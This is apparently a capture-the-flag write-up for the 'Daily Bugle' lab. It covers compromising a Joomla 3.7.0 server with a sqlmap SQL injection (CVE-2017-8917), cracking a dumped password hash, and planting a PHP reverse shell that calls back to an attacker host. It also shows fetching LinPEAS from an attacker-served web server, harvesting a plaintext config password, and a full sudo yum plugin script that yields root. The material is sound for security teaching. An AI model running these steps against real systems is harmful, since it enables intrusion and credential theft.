

# Daily Bugle (Joomla)

### **Daily Bugle** 

* Compromise Joomla CMS account using SQLi, crack hashes and escalate privileges by taking advantage of "yum".

### **Scan using Nmap (Reconnaissance: Active Scanning: Vulnerability Scanning (T1595.002))** 

nmap -Pn -O -p- -sV -sC -oN TARGET\_IP\_scan.nmap TARGET\_IP

* \-sC scan with default NSE scripts.
  * Considered useful for discovery and safe.

Starting Nmap 7.60 ( https://nmap.org ) at 2024-03-01 23:46 GMT

Warning: 10.10.208.89 giving up on port because retransmission cap hit (2).

Host is up (0.00037s latency).

Not shown: 65527 closed ports

PORT STATE SERVICE VERSION

22/tcp open ssh OpenSSH 7.4 (protocol 2.0)

\| ssh-hostkey:

\| 2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)

\| 256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)

|\_ 256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (EdDSA)

80/tcp open http Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)

|\_http-generator: Joomla! - Open Source Content Management

\| http-robots.txt: 15 disallowed entries

\| /joomla/administrator/ /administrator/ /bin/ /cache/

\| /cli/ /components/ /includes/ /installation/ /language/

|\_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/

|\_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40

|\_http-title: Home

1157/tcp filtered iascontrol

3306/tcp open mysql MariaDB (unauthorized)

17194/tcp filtered unknown

36586/tcp filtered unknown

62839/tcp filtered unknown

65431/tcp filtered unknown

MAC Address: 02:B7:92:4A:42:3F (Unknown)

Aggressive OS guesses: Linux 3.13 (95%), Linux 3.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (94%), Linux 3.16 (94%), Linux 3.1 (93%), Linux 3.2 (93%), Linux 3.10 (92%), Linux 3.19 (92%), Linux 3.2 - 4.8 (92%), Linux 3.4 - 3.10 (92%)

No exact OS matches for host (test conditions non-ideal).

Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

Nmap done: 1 IP address (1 host up) scanned in 195.91 seconds

### **Search for hidden directories using GoBuster (Reconnaissance: Active Scanning: Wordlist Scanning (T1595.003))** 

gobuster dir --url http://TARGET\_IP/ -w /usr/share/wordlists/dirb/common.txt > gobuster.txt

\[snip...]

/.hta (Status: 403)

/.htaccess (Status: 403)

/.htpasswd (Status: 403)

/administrator (Status: 301)

/bin (Status: 301)

/cache (Status: 301)

/cgi-bin/ (Status: 403)

/components (Status: 301)

/images (Status: 301)

/includes (Status: 301)

/language (Status: 301)

/layouts (Status: 301)

/libraries (Status: 301)

/media (Status: 301)

/modules (Status: 301)

/plugins (Status: 301)

/robots.txt (Status: 200)

/index.php (Status: 200)

/templates (Status: 301)

/tmp (Status: 301)

\[snip...]

* Browsing to "/administrator" directory reveals a Joomla login screen.

* Default Joomla username admin with no password credentials do not work.
* All other Gobuster discovered directories return no information.

### **Scan Joomla using**[ **OWASP JoomScan**](https://github.com/OWASP/joomscan) **(Reconnaisance: Active Scanning (ID: T1595))** 

git clone https://github.com/rezasp/joomscan.git

perl joomscan/joomscan.pl -u http://TARGET\_IP

* Scan returned Joomla version 3.7.0.

### **Search searchsploit for Joomla exploits (Resource Development: Develop Capabilities: Exploits (ID: T1587.004))** 

searchsploit joomla 3.7.0

\---------------------------------------------- ---------------------------------

Exploit Title | Path

\---------------------------------------------- ---------------------------------

Joomla! 3.7.0 - 'com\_fields' SQL Injection | php/webapps/42033.txt

* [Joomla! 3.7.0 - 'com\_fields' SQL Injection](https://www.exploit-db.com/exploits/42033).

sqlmap -u "http://localhost/index.php?option=com\_fields\&view=fields\&layout=modal\&list\[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list\[fullordering]

* Exploit associated with[ CVE-2017-8917](https://nvd.nist.gov/vuln/detail/CVE-2017-8917).

SQL injection vulnerability in Joomla! 3.7.x before 3.7.1 allows attackers to execute arbitrary SQL commands via unspecified vectors.

### **Exploit Joomla database using SQLMap (Credential Access: Exploitation for Credential Access (ID: T1212))** 

sqlmap -u "http://TARGET\_IP/index.php?option=com\_fields\&view=fields\&layout=modal\&list\[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list\[fullordering]

\[snip...]

it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? \[Y/n] y

\[snip...]

sqlmap got a 303 redirect to 'http://10.10.13.128:80/index.php/component/fields/'. Do you want to follow? \[Y/n] n

\[snip...]

GET parameter 'list\[fullordering]' is vulnerable. Do you want to keep testing the others (if any)? \[y/N] y

sqlmap identified the following injection point(s) with a total of 2814 HTTP(s) requests:

\---

Parameter: list\[fullordering] (GET)

Type: error-based

Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)

Payload: option=com\_fields\&view=fields\&layout=modal\&list\[fullordering]=(SELECT 2417 FROM(SELECT COUNT(\*),CONCAT(0x716b706b71,(SELECT (ELT(2417=2417,1))),0x716b6b7671,FLOOR(RAND(0)\*2))x FROM INFORMATION\_SCHEMA.PLUGINS GROUP BY x)a)

\> Error-based SQL Injection is a type of SQL Injection that relies on triggering errors in the target application to extract information from the database.

\[snip...]

available databases \[5]:

\[\*] information\_schema

\[\*] joomla

\[\*] mysql

\[\*] performance\_schema

\[\*] test

**Enumerate "joomla" database tables**

sqlmap -u "http://TARGET\_IP/index.php?option=com\_fields\&view=fields\&layout=modal\&list\[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list\[fullordering] -D joomla --tables

\[snip...]

atabase: joomla

\[72 tables]

\+----------------------------+

\| #\_\_assets |

\| #\_\_associations |

\| #\_\_banner\_clients |

\| #\_\_banner\_tracks |

\| #\_\_banners |

\| #\_\_categories |

\| #\_\_contact\_details |

\| #\_\_content\_frontpage |

\| #\_\_content\_rating |

\| #\_\_content\_types |

\| #\_\_content |

\| #\_\_contentitem\_tag\_map |

\| #\_\_core\_log\_searches |

\| #\_\_extensions |

\| #\_\_fields\_categories |

\| #\_\_fields\_groups |

\| #\_\_fields\_values |

\| #\_\_fields |

\| #\_\_finder\_filters |

\| #\_\_finder\_links\_terms0 |

\| #\_\_finder\_links\_terms1 |

\| #\_\_finder\_links\_terms2 |

\| #\_\_finder\_links\_terms3 |

\| #\_\_finder\_links\_terms4 |

\| #\_\_finder\_links\_terms5 |

\| #\_\_finder\_links\_terms6 |

\| #\_\_finder\_links\_terms7 |

\| #\_\_finder\_links\_terms8 |

\| #\_\_finder\_links\_terms9 |

\| #\_\_finder\_links\_termsa |

\| #\_\_finder\_links\_termsb |

\| #\_\_finder\_links\_termsc |

\| #\_\_finder\_links\_termsd |

\| #\_\_finder\_links\_termse |

\| #\_\_finder\_links\_termsf |

\| #\_\_finder\_links |

\| #\_\_finder\_taxonomy\_map |

\| #\_\_finder\_taxonomy |

\| #\_\_finder\_terms\_common |

\| #\_\_finder\_terms |

\| #\_\_finder\_tokens\_aggregate |

\| #\_\_finder\_tokens |

\| #\_\_finder\_types |

\| #\_\_languages |

\| #\_\_menu\_types |

\| #\_\_menu |

\| #\_\_messages\_cfg |

\| #\_\_messages |

\| #\_\_modules\_menu |

\| #\_\_modules |

\| #\_\_newsfeeds |

\| #\_\_overrider |

\| #\_\_postinstall\_messages |

\| #\_\_redirect\_links |

\| #\_\_schemas |

\| #\_\_session |

\| #\_\_tags |

\| #\_\_template\_styles |

\| #\_\_ucm\_base |

\| #\_\_ucm\_content |

\| #\_\_ucm\_history |

\| #\_\_update\_sites\_extensions |

\| #\_\_update\_sites |

\| #\_\_updates |

\| #\_\_user\_keys |

\| #\_\_user\_notes |

\| #\_\_user\_profiles |

\| #\_\_user\_usergroup\_map |

\| #\_\_usergroups |

\| #\_\_users |

\| #\_\_utf8\_conversion |

\| #\_\_viewlevels |

\+----------------------------+

\[snip...]

**Enumberate columns of "#\_\_users" table**

sqlmap -u "http://TARGET\_IP/index.php?option=com\_fields\&view=fields\&layout=modal\&list\[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list\[fullordering]" -T "#\_\_users" -D joomla --columns

\[snip...]

do you want to use common column existence check? \[y/N/q] y

which common columns (wordlist) file do you want to use?

\[1] default '/usr/share/sqlmap/txt/common-columns.txt' (press Enter)

\[2] custom

\> 1

please enter number of threads? \[Enter for 1 (current)] 10

\[snip...]

Database: joomla

Table: #\_\_users

\[6 columns]

\+----------+-------------+

\| Column | Type |

\+----------+-------------+

\| email | non-numeric |

\| id | numeric |

\| name | non-numeric |

\| params | numeric |

\| password | non-numeric |

\| username | non-numeric |

\+----------+-------------+

**Dump "username" and "password" columns of "#\_\_users" table**

sqlmap -u "http://TARGET\_IP/index.php?option=com\_fields\&view=fields\&layout=modal\&list\[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list\[fullordering] -C username,password -T "#\_\_users" -D joomla --dump

\[2 entries]

\+--------------------------------------------------------------+--------------------------------------------------------------+

\| username | password |

\+--------------------------------------------------------------+--------------------------------------------------------------+

\| jonah | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm | |

\+--------------------------------------------------------------+--------------------------------------------------------------+

### **Crack password hash using JtR (Credential Access: Brute Force: Password Cracking (ID: T1110.002))** 

* Copy and paste password into "hash.txt".

john ./hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

\[snip..]

spiderman123 (?)

john --show hash.txt

?:spiderman123

### **Access Joomla using recovered credentials (Initial Access: Valid Accounts: Local Accounts (ID: T1078.003))** 

* Browse to http://TARGET\_IP/administrator.
* Logon to Joomla using jonah / spiderman123

### **Exploit Joomla CMS (Resource Development: Develop Capabilities: Exploits (ID: T1587.004))** 

* Warning on Joomla Control Panel that PHP version 5.6.40 is only receiving security fixes from PHP project.
  * Checked Exploit database for PHP exploits - nothing found.

#### **Create nc listener.** 

nc -lvnp 1234

### **Upload reverse shell to Joomla (Credential Access: Exploitation for Credential Access (ID: T1212)** 

* Edit Joomla theme to upload reverse shell code.
  * "Control Panel" > "Templates" > "Templates" tab > "Beez3 Details and Files" > Select "index.php".
  * Paste[ php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) into page.
    * Edit "ip" field to ATTACKER\_IP.
* "Save" changes to page.
* "Template Preview".

#### **Reverse shell caught by listener** 

Connection from TARGET\_IP 35666 received!

Linux dailybugle 3.10.0-1062.el7.x86\_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86\_64 x86\_64 x86\_64 GNU/Linux

11:26:24 up 59 min, 0 users, load average: 0.00, 0.01, 0.05

USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT

uid=48(apache) gid=48(apache) groups=48(apache)

sh: no job control in this shell

sh-4.2$ whoami

whoami

apache

* Upgrade shell.

python -c 'import pty; pty.spawn("/bin/bash")'

enumeration is the key to hack.

### **Enumerate system users (Privilege Escalation: Valid Accounts: Local Accounts (ID: T1078.003))** 

cat /etc/passwd

root:x:0:0:root:/root:/bin/bash

\[snip...]

jjameson:x:1000:1000:Jonah Jameson:/home/jjameson:/bin/bash

* "apache" user has no sudo delegation (sudo -l).
* No unusual files with SUID bit set for "apache" user.

find / -perm -u=s -type f 2>/dev/null\`

/usr/bin/chage

/usr/bin/gpasswd

/usr/bin/chfn

/usr/bin/chsh

/usr/bin/newgrp

/usr/bin/su

/usr/bin/sudo

/usr/bin/mount

/usr/bin/umount

/usr/bin/crontab

/usr/bin/pkexec

/usr/bin/passwd

/usr/sbin/unix\_chkpwd

/usr/sbin/pam\_timestamp\_check

/usr/sbin/usernetctl

/usr/lib/polkit-1/polkit-agent-helper-1

/usr/libexec/dbus-1/dbus-daemon-launch-helper

* No unusual cronjobs (cat /etc/crontab).

### **Enumerate target host using LinPEAS (Reconnaisance: Active Scanning: Vulnerability Scanning (ID: T1595.002))** 

* Download LinPEAS to attack host.

wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

* Serve payload through python webserver.

python3 -m http.server

* Download LinPEAS to target host.

wget http://ATTACKER\_IP:8000/linpeas.sh

chmod +x ./linpeas.txt

* Ensure that target directory has write permissions.
  * E.g. /tmp.
* Write LinPEAS output to text file.

./linpeas.sh -a > linpeas.txt

* Plaintext password found in Joomla "/var/www/html/configuration.php" file.

Searching passwords in config PHP files

/var/www/html/configuration.php: public $password = 'nv5uz9r3ZEDzVjNu';

\[snip...]

### **Elevate privileges to "jjameson" user (Privilege Escalation: Valid Accounts: Local Accounts (ID: T1078.003))** 

su jjameson

Password: nv5uz9r3ZEDzVjNu

id

uid=1000(jjameson) gid=1000(jjameson) groups=1000(jjameson)

* Find user flag.

cd /

find / -name user.\* -type f 2>/dev/null

\[snip ...]

/home/jjameson/user.txt

### **Connect to target host over SSH using "jjameson" credentials (Lateral Movement: Remote Services: SSH (ID: T1021.004))** 

sh jjameson@10.10.91.236

The authenticity of host '10.10.91.236 (10.10.91.236)' can't be established.

ECDSA key fingerprint is SHA256:apAdD+3yApa9Kmt7Xum5WFyVFUHZm/dCR/uJyuuCi5g.

Are you sure you want to continue connecting (yes/no)? yes

Warning: Permanently added '10.10.91.236' (ECDSA) to the list of known hosts.

jjameson@10.10.91.236's password:

Last login: Mon Dec 16 05:14:55 2019 from netwars

* Find any sudo delegation.

sudo -l

\[snip...]

User jjameson may run the following commands on dailybugle:

(ALL) NOPASSWD: /usr/bin/yum

### **Check for "yum" "sudo" exploits in**[ **GTFOBins**](https://gtfobins.github.io/gtfobins/yum/#sudo) **(Resource Development: Develop Capabilities: Exploits (ID: T1587.004))** 

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

### **Spawn interactive root shell by loading custom plugin (Privilege Escalation: Abuse Elevation Control Mechanism: Sudo and Sudo Caching (T1548.003))** 

TF=$(mktemp -d)

cat >$TF/x<\<EOF

\[main]

plugins=1

pluginpath=$TF

pluginconfpath=$TF

EOF

cat >$TF/y.conf<\<EOF

\[main]

enabled=1

EOF

cat >$TF/y.py<\<EOF

import os

import yum

from yum.plugins import PluginYumExit, TYPE\_CORE, TYPE\_INTERACTIVE

requires\_api\_version='2.1'

def init\_hook(conduit):

os.execl('/bin/sh','/bin/sh')

EOF

sudo yum -c $TF/x --enableplugin=y

Loaded plugins: y

No plugin match for: y

sh-4.2# whoami

root

sh-4.2# id

uid=0(root) gid=0(root) groups=0(root)

sh-4.2#

* Find root flag.

cd /

find / -name root.\* -type f 2>/dev/null

/root/root.txt
